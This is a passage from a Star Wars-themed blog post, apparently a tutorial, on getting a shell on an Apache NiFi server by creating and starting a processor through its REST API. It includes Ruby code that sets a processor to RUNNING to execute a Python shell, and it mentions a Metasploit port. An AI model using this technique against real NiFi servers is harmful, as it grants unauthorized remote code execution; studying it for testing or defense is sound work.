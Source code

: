 ```
configure_processor(millennium_falcon, "python", command_args)
```

Notice how only one '}' is required since there are only two arguments: -c and the script as a string.  See?  I told you it wasn't so bad.
## Step 5: Punch It
With everything set up, all that was left to do was hit engage on the hyperdrive.

```
def start_processor(processor)
  start_process = HTTP.put("#{TARGET}/processors/#{processor['id']}",
    :json => {
      :revision => {
        :clientId => "",
        :version => get_version(processor)
      },
      :component => {
        :id => processor["id"],
        :state => "RUNNING"
      }
  }).parse
  return start_process
end

start_processor(millennium_falcon)  # Execute python shell
sleep(1)                            # Gives the API some time to work
```

## Make the Kessel Run In <12 Packets
<figure style="text-align:center; margin:1em">
<img src="https://gph.to/2SB2nJg" alt="nifi-shell">
<figcaption style="font-size:x-small;">“It’s the ship that made the Kessel run in less than twelve parsecs. I’ve outrun Imperial starships. Not the local bulk cruisers, mind you. I’m talking about the big Corellian ships, now. She’s fast enough for you, old man.”</figcaption>
</figure>

And that is pretty much it.  The basics are creating a processor, setting it up to execute how you want, and letting it go to do the rest. 
## There's Always a Bigger Fish
The script I've outlined has some flaws, isn't really stealthy, and leaves a new processor running in NiFi, but guess what?  The API has functions that allow you to fix all of that to your liking!    Additionally, there are other processors like ExecuteScript that do similar things, giving you a mess of ways to get a shell on the system.  It's like a choose your own adventure application. 

For me, after I had a decent script running, I thought I would port it to Metasploit, so I did.  And let me tell you, I need to write a blog post on how I did that because it was an adventure through its own universe. 

So you can have your own fun playing with NiFi and exploiting it your own way, or if you stuck-up, half-witted, scruffy-looking ***nerf herders*** just want the script, its posted here too.

